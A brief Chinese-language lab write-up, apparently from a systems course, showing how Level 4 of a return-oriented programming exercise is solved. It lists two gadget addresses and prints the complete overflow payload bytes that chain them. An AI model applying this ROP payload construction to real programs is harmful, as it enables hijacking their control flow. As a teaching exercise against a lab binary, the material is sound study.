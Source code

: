 ##	Return-Oriented Programming Attacks

###	Level 4

与level 2 类似，但是这次要求使用程序原有的代码进行攻击。

我们需要的指令为

```assembly
popq	%rax
mov		%rax,	%rdi
```

查找汇编，指令一对应的地址为

```assembly
0x4019ab
```

指令二对应的地址为

```assembly
0x4019c5
```

所以注入的代码为

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
AB 19 40 00 00 00 00 00
FA 97 B9 59 00 00 00 00
C5 19 40 00 00 00 00 00
EC 17 40 00 00 00 00 00
```

结果：

![1556794093919](assets/1556794093919.png)

需要说明的是，不适用%rax，使用别的寄存器也是可以完成攻击的。但是 需要选择callee进行保存的寄存器。而此处，%rax是用来存放返回值的。
